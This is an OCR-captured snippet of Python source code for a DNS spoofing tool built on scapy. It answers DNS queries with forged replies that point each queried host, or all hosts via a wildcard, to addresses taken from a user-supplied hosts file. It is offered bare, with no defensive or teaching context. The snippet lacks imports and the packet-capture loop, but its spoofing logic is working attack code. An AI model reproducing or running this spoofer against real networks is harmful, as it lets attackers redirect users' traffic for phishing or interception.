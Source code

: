 ```bash
def handle_packet(packet):
    ip = packet.getlayer(scapy.IP)
    udp = packet.getlayer(scapy.UDP)
    dns = packet.getlayer(scapy.DNS)
 
    # standard (a record) dns query
    if dns.qr == 0 and dns.opcode == 0:
        queried_host = dns.qd.qname[:-1]
        resolved_ip = None
 
        if dns_map.get(queried_host):
            resolved_ip = dns_map.get(queried_host)
        elif dns_map.get('*'):
            resolved_ip = dns_map.get('*')
         
        if resolved_ip:
            dns_answer = scapy.DNSRR(rrname=queried_host + '.',
                                     ttl = 330,
                                     type="A",
                                     rclass="IN",
                                     rdata=resolved_ip)
            dns_reply = scapy.IP(src=ip.dst, dst=ip.src) / \
                    scapy.UDP(sport=udp.dport,dport=udp.sport) / \
                    scapy.DNS(
                        id = dns.id,
                        qr = 1,
                        aa = 0,
                        rcode = 0,
                        qd = dns.qd,
                        an = dns_answer
                    )
            print "Send %s has %s to %s" % (queried_host,resolved_ip,ip.src)
            scapy.send(dns_reply, iface=dev)
 
def usage():
    print sys.argv[0] + ' -f <hosts-file>  -i <dev>'
    sys.exit(1)
 
def parse_host_file(file):
    for line in open(file):
        line  = line.rstrip('\n')
 
        if line:
            (ip, host) = line.split()
            dns_map[host] = ip
try:
    cmd_opts = 'f:i:'
    opts, args = getopt.getopt(sys.argv[1:], cmd_opts)
except getopt.GetoptError:
    usage()
 
for opt in opts:
    if opt[0] == '-i':
        dev = opt[1]
    elif opt[0] == '-f':
        file = opt[1]
    else:
        usage()
 
if file:
    parse_host_file(file)
else:
    usage()
```